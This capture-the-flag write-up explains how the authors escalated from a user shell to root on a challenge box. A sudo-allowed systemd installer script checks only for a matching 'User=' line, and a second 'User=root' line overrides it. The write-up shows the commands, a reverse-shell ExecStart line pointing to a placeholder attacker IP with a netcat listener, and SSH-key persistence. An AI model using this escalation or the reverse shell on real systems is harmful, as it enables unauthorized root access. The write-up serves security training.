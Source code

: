 # OMM API root
*Disclaimer: We solved this challenge after the CTF had ended. During the ctf we got to the very last step trying to bypass the if-check.*

<p align="center">
    <img src="img/omm_api_root_chall.png" alt="Challenge" width="500"/>
</p>

We currently have shell as the `f_omm_app` user. In the `OMM API user` challenge we got a reverse shell, which we now have upgraded to a ssh-shell by adding our ssh-publickey to `/home/f_omm_app/.ssh/authorized_keys`.
```
f_omm_app@ip-10-128-3-164:~$ id
uid=1002(f_omm_app) gid=1003(f_omm_app) groups=1003(f_omm_app),1001(hpc_users_rd)
```

`f_omm_app` have sudo permissions on the box, but only for certain commmands.
```
f_omm_app@ip-10-128-3-164:~$ sudo -l
Matching Defaults entries for f_omm_app on ip-10-128-3-164:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin\:/opt/pbs/bin, use_pty

User f_omm_app may run the following commands on ip-10-128-3-164:
    (ALL : ALL) NOPASSWD: /opt/pbs/bin/qsub, /opt/pbs/bin/qdel, /prog/util/sbin/appsysctladd, /usr/bin/systemctl restart *
```

The first two scripts, `/opt/pbs/bin/qsub` and `/opt/pbs/bin/qdel` doesn't do much.
```
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qsub
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qdel
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
```

The command `/usr/bin/systemctl restart *` allows us to restart the systemctl services, but does not turn out to be very useful for us.

[/prog/util/sbin/appsysctladd](./appsysctladd.sh) is the most interesting script that we can run.
`appsysctladd` is a bash script which takes one or more directories as arguments. For each directory-argument given it searches for the directory `$HOSTNAME` in it and starts `systemctl` services for each `.service` file located in that directory. This means that if we create a service file with `User=root` the created service should execute our defined command as `root`!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ ls
eic-hostkey-MGy07Txb  ip-10-128-3-164

f_omm_app@ip-10-128-3-164:/dev/shm$ ls ip-10-128-3-164/
test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=root

[Install]
WantedBy=multi-user.target
```

```
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: /dev/shm/ip-10-128-3-164/test.service was rejected. User and Group must match file user and group
```

Unfortunately, that would be too easy. Looking closer into the `/prog/util/sbin/appsysctladd` script we can see the following check:
```
U=$( stat -c '%U' "${SRV}" )
G=$( stat -c '%G' "${SRV}" )

if egrep -q "^User=${U}$" "${SRV}" && egrep -q "^Group=${G}$" "${SRV}"
then
    SRVNAME=$( basename "${SRV}" )
    echo "$PROG: Setting up systemd service from ${SRV}"
    install -g root -o root -m 644 "${SRV}" "${SYSTEMD}/${SRVNAME}" && \
    systemctl daemon-reload && \
    systemctl start "${SRVNAME}" && \
    systemctl enable "${SRVNAME}"
else
    echo "$PROG: ${SRV} was rejected. User and Group must match file user and group"
fi
```

The script gets the username and group of the owner of the file, and checks that it match the `User` and `Group` the service is set to run as. This check is however not bulletproff, as it only checks if `User=f_omm_app` and `Group=f_omm_app` *exist* in the service file. So what happens if the service file contains the following?
```¨
User=f_omm_app
Group=f_omm_app
User=root
```

Turns out, when a field is set *twice* it is the *latest* occurrence of the field that takes precedence. Thus, we can bypass the if-check in the `appsysctladd` script by including `User=f_omm_app`, but then set `User=root` afterwards to make the service execute as root.
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target

f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat /tmp/output
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
```

With this knowledge, we can swap out the `ExecStart` POC with a reverse shell to get root, and the flag!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service
```

```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.128.1.12] from (UNKNOWN) [10.128.3.164] 54920
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
# cat /root/root.txt
EPT{PR1V35C_15_700_345Y_F0R_Y0U_GJ_WP!}
```